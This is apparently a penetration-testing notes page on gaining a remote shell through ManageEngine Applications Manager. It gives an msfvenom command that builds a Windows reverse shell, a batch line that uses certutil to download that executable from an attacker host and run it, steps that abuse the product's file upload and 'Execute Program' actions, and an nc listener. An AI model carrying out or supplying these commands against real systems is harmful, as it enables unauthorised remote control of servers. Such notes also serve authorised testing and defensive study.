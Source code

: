 # ManageEngine

### ManageEngine Applications Manager

If the target application has what are called 'Actions' which allows certain scripts and files to be executed when a certain parameter is met. To take advantage of this first we can head to **Admin > Upload Files / Binaries** to upload a `cmd` command or any malicious code.

Before we upload we first need to create a `msfvenom` reverse shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f exe -o reverse.exe
```

After this has completed we need to then create a batch file as only batch files and scripts are executed from the _Actions_ on the target web server.

Create a batch command to the following:

```
certutil.exe -f -urlcache -split http://<IP>/reverse.exe c:\windows\temp\reverse.exe && cmd.exe /c c:\windows\temp\reverse.exe
```

Ensuring the bottom most options for '**Upload Script to \<Product\_Home>/working/**' is selected.

![Manage Engine Applications Manager -> Admin -> Upload Files / Binaries -> Upload Script to \<Product\_Home>/working/](../../.gitbook/assets/manage-engine-upload-files.png)

After the upload head over to **Actions -> Execute Program** Then create a new Action as per the screenshot below:

![Manage Engine Applications Manager -> Action -> Execute Program](../../.gitbook/assets/manage-engine-upload-execute-program.png)

Now, check if you received a shell:

```
nc -lvp <YOUR_PORT>

# DID YOU RECEIVED A SHELL?
```
